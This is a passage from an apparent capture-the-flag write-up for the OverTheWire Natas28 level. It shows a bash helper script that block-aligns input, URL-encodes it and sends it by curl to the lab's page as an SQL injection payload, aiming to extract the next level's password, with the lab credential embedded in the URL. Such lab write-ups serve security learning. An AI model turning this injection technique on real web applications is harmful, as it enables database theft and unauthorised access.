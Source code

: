 And the result in Burp:  
<img class="alignnone wp-image-311 size-full" src="/assets/img/2019/09/2019-09-25_09h38_19.png" /> 

Awesome! We have jokes!

### SQL

Now that we can query the joke database with our own SQL code, the next objective is to extract the password for natas29.

To help with this objective, I modified the helper script to be more helpful:

{% highlight shell %}
#!/bin/bash
#Helper script with Natas28 challenge

# Get the input as an argument or STDIN
[ $# -ge 1 ] && input="$1" || read input

strlength=`printf "%s" "$input" | wc -c` 
remainder=$(( 16 - $strlength % 16 )) 

payload=$(printf "%0.s " {1..10}) 
payload+="$input"
payload+=$(printf "%0.s " $(seq $remainder))
payload2=$(urlencode "$payload")

echo "Sending: $payload2"
resp1=$(curl -i \
    http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org/index.php \
    -H "User-Agent: curl" \
    -d "query=$payload2"
)

query=$(echo "$resp1" | grep Location | awk -F'query=' '{print $2}')
echo "$query"
